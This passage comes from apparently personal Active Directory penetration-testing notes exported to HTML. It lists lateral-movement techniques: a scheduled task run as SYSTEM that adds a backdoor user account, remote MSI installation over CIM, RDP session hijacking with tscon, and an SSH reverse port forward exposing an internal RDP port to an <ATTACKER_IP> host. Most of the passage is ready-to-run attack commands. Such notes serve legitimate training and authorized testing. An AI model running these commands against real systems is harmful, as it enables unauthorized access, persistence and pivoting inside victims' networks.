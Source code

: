Invoke-CimMethod -InputObject $Service -MethodName StartService</code></pre><p id="d859b91d-d1b9-4084-88bd-bb9ec11df542" class="">
<strong>Scheduled Task Methodology</strong></p><pre id="49f578f6-da40-44f1-8ef2-6844b116ec35" class="code code-wrap"><code># Payload must be split in Command and Args
$Command = &quot;cmd.exe&quot;
$Args = &quot;/c net user 0xd4y PleaseSubscribe /add&quot;

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User &quot;NT AUTHORITY\SYSTEM&quot; -TaskName &quot;MyTask&quot;
Start-ScheduledTask -CimSession $Session -TaskName &quot;MyTask&quot;</code></pre><p id="a2d94d06-5728-4a9a-8456-8c2cec867cd8" class=""><strong>Installing MSI Package Methodology</strong></p><p id="73d3ad7d-44d0-4ad4-9538-30f2cbbd3ec1" class="">After copying MSI file to targeted remote system run the following command to install the package.</p><pre id="b1916849-7878-4327-b565-dcd11369493b" class="code"><code>Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = &quot;C:\Windows\myinstaller.msi&quot;; Options = &quot;&quot;; AllUsers = $false}</code></pre><h3 id="217e8876-673c-45a9-94b0-a56794e83c0d" class="">RDP Hijacking</h3><ul id="e2862f8e-462c-4b7a-aac5-ebe2ba404c46" class="bulleted-list"><li style="list-style-type:disc">SYSTEM user on Windows Server 2016 does not require a password, but Windows Server 2019 does</li></ul><ul id="d3434424-e30f-46c3-bc73-17ef6cae307d" class="bulleted-list"><li style="list-style-type:disc">when user connects via RDP and closes their client but not log out, their session is still active</li></ul><ul id="14984a13-b38b-4ec8-8818-0b56a79c51e3" class="bulleted-list"><li style="list-style-type:disc">use <code>query user</code> to find sessions on machine<ul id="5a2c123d-fff6-48e5-a100-7d661a28e2d4" class="bulleted-list"><li style="list-style-type:circle">unused active sessions identified by <code>Disc</code> state</li></ul></li></ul><ul id="5aa5c69f-b469-45c3-8680-218325b850af" class="bulleted-list"><li style="list-style-type:disc">connect to session using <code>tscon &lt;SESSION_ID&gt; /dest:&lt;SESSIONNAME&gt;</code></li></ul><figure id="cbf0a186-f59b-4db5-a3e0-19e254be7752" class="image"><a href="Active%20Directory%20Pentesting%2013bdf411f877497282c549a5fd16d4c9/Untitled%208.png"><img style="width:582px" src="Active%20Directory%20Pentesting%2013bdf411f877497282c549a5fd16d4c9/Untitled%208.png"/></a></figure><h3 id="624fe4eb-3732-426f-b686-fc70916c5195" class="">Remote Port Forwarding</h3><ol type="1" id="42b2a14c-5ba0-449f-87a5-bba7008c8001" class="numbered-list" start="1"><li>Create a user on attack box without console access:</li></ol><pre id="bf7c6e3d-f5c4-4fa9-9bc3-5c6a18788922" class="code code-wrap"><code>useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser</code></pre><ol type="1" id="bad6d0e0-2218-4d0a-8347-7c0f6dd7a5ed" class="numbered-list" start="2"><li>Forward RDP port (or whatever port it may be) to attack box:</li></ol><pre id="ff090109-ba27-46cd-a677-d747287391af" class="code"><code>ssh tunneluser@&lt;ATTACKER_IP&gt; -R 3389:&lt;RDP_MACHINE&gt;:3389 -N</code></pre><p id="95980b3d-457c-46a5-b47b-7d59ff212342" class="">
</p><p id="14b16981-630a-460e-8a71-f3cd8548a731" class="">